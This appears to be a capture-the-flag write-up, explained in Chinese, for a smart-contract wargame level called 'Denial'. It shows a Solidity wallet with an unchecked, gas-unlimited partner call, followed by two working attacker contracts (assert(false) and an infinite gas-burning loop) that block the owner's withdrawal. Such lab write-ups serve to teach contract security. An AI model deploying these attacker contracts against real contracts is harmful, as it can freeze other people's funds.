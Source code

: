 This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract Denial {
    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = payable(address(0xA9E));
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(
            amountToSend
        );
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```









这里的核心思想就是使整个交易在***partner.call{value: amountToSend}("")***这行run out of gas，才能使之后的代码无法执行，从而变成DoS攻击，而Attacker的写法分两种，根据官网文档

https://docs.soliditylang.org/en/latest/control-structures.html?highlight=revert%20assert#revert

因为assert会产生Panic，而0.8.0以前Panic会消耗掉所有gas，所以0.6.0的写法就是简单的assert(false)就可以了

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract DenialAttacker {
    
    receive() external payable {
        assert(false);
    }

}
```



0.8.0之后的版本就要写成这样一个无限循环，把gas消耗掉造成run out of gas的效果

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract DenialAttacker {
    uint256 private sum;
    
    receive() external payable {
        uint256 index;
            for (index = 0; index < type(uint256).max; index++) {
            sum += 1;
        }
    }

    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

